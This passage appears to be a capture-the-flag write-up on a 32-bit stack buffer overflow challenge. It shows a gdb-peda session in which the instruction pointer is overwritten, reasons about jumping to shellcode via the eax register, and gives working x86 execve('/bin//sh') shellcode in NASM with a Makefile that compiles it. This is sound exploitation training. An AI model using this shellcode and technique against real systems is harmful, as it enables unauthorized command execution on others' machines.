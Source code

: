  
This challenge seems to be similar to stack-4, only difference is we need to execute our shellcode. Offset is also same...


Let's set a breakpoint on **0x08048432**, one instruction before return of the main().

```nasm
gdb-peda$ b * 0x08048432
Breakpoint 1 at 0x8048432: file 5.c, line 11.

gdb-peda$ r 

gdb-peda$ ni
...TRIM...
EAX: 0xffffd0e0 ('A' <repeats 76 times>, "BBBBCCCCDDDD")
...
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd130 ("CCCCDDDD")
EIP: 0x42424242 ('BBBB')
...TRIM...
Invalid $PC address: 0x42424242
...TRIM...
0x42424242 in ?? ()
```

As seen above, registers eax, esp, eip, ebp are overwritten. The goal of this challenge is to obtain a command execution on target host. So we need to let target jump to our shellcode. As seen above, it's possible to write our shellcode to several places. I chose **eax** register at this time. 

#### 2.2 Quick Solution

Let's write a basic shellcode (exploit.asm).

```nasm
section .text
	global _start

_start:
	xor eax, eax ; cleaning up -> safe null
	push eax ; null-byte onto stack since it's a terminator
	push 'n/sh' ; //bi + n/sh -> 4 + 4 bytes since '//'=='/'
	push '//bi' 
	mov ebx, esp ; set ebx to out
	xor ecx, ecx ; cleaning up -> no args 
	xor edx, edx ; cleaning up -> no args
	mov al, 11 ; syscall  ->  execve()
	int 80h ; call kernel
```


Compiling our shellcode.

```
$ cat Makefile
all:
	nasm -f elf32 exploit.asm -o exploit.o
	ld -m elf_i386 exploit.o -o exploit
	rm exploit.o
	objcopy -O binary exploit exploit.bin

$ make
```
